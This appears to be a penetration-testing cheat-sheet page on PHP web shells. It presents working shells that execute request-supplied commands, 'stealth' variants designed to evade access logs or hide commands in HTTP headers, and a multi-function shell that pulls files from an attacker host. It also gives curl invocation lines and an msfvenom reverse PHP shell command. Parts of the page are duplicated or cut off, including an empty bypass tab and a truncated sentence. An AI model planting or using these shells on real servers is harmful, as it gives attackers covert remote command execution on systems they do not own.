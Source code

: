 # Web Shells

Webshell is a colloquial term for a script that runs inside a web server (usually in a language such as PHP or ASP) that executes code on the server. This can be extremely useful if firewalls are in place.

{% hint style="danger" %}
If we cannot enter a reverse shell as we normally do, we might suspect that the shell we want to use doesn't exist (for example, in Linux it might be that **bash** doesn't exist and you just have to use **sh**). It may also be the firewall preventing such action. In this case, we can consult the following resources: [IPTables (Linux)](broken-reference) and [AV, AppLocker and Firewall Enumeration (Windows)](../privilege-escalation/windows-privilege-escalation/initial-enumeration-windows.md#av-applocker-and-firewall-enumeration).
{% endhint %}

### PHP

{% tabs %}
{% tab title="Oneliner" %}
{% hint style="info" %}
The `system()` and `shell_exec()` functions are not the only ones to execute commands. There are others, such as `exec()`, `passthru()`, etc.
{% endhint %}

```php
<?php system($_REQUEST['cmd']); ?>
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']). "</pre>"; ?>
<?php echo system($_GET["cmd"]); ?>
<?php system("<COMMAND>")?>
<?php phpinfo(); ?> # To check for disable functions.
# Then we can run via web or curl with the following command:
curl "http://<IP>/<FILE>.php?cmd=whoami"
```



## #3. PHP Stealth WebShell

```php
# Method 1:
<?=($_=@$_GET[2]).@$_($_GET[1])?>
curl '<URL>/shell.php?1=whoami&2=shell_exec'
# Method 2:
<?php system($_POST["cmd"]); ?> # This would prevent our command logs from being stored in e.g. Apahe: access.log
curl -X POST -d 'cmd=whoami' <URL>/shell.php -H 'User-Agent: <AGENT>'
# Method 3:
<?php
$headers = getallheaders();
$message = $headers['Test']; # We can change this header for a real one to make it pass unnoticed.
echo system($message);
?>
curl -H 'Test: whoami' <URL>/shell.php -H 'User-Agent: <AGENT>'
```

## #4. PHP Web Shell with multiple functions

```php
<?php
	if (isset($_REQUEST['fupload'])) {
		file_put_contents($_REQUEST['fupload'], file_get_contents("http://<IP>/" . $_REQUEST['fupload']));
	};
	if (isset($_REQUEST['fexec'])) {
		echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
	};
?>
```
{% endtab %}

{% tab title="msfvenom" %}
```
msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=443 -f raw > shell.php
```
{% endtab %}

{% tab title="Bypass disable_func" %}
emember that in some PHP versions, there is an exploit to bypass all disable functions:
{% endtab %}

{% tab title="Stealth" %}
```bash
# Method 1:
<?=($_=@$_GET[2]).@$_($_GET[1])?>
curl '<URL>/shell.php?1=whoami&2=shell_exec'
# Method 2:
<?php system($_POST["cmd"]); ?> # This would prevent our command logs from being stored in e.g. Apahe: access.log
curl -X POST -d 'cmd=whoami' <URL>/shell.php -H 'User-Agent: <AGENT>'
# Method 3:
<?php
$headers = getallheaders();
$message = $headers['Test']; # We can change this header for a real one to make it pass unnoticed.
echo system($message);
?>
curl -H 'Test: whoami' <URL>/shell.php -H 'User-Agent: <AGENT>'
```
{% endtab %}

{% tab title="Others" %}

{% endtab %}
{% endtabs %}



